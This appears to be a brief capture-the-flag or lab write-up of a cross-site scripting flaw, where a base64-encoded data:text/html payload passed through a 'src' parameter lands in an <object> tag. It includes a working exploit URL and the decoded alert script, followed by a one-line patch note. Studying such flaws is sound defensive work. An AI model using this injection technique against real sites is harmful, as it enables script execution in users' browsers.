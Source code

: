 🚨 **EXPLOIT**

The application allows injecting base64-encoded HTML/JavaScript through the src parameter:

`http://192.168.38.130/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=`

https://base64.guru/converter

Decoded payload:

```html
<script>
  alert("xss");
</script>
```

This base64 content is injected inside an HTML element like:

```html
<object data=""></object>
```

allowing execution of arbitrary JavaScript and leading to XSS (Cross-Site Scripting).

---

✅ **PATCH**

Sanitize HTML to prevent XSS injection
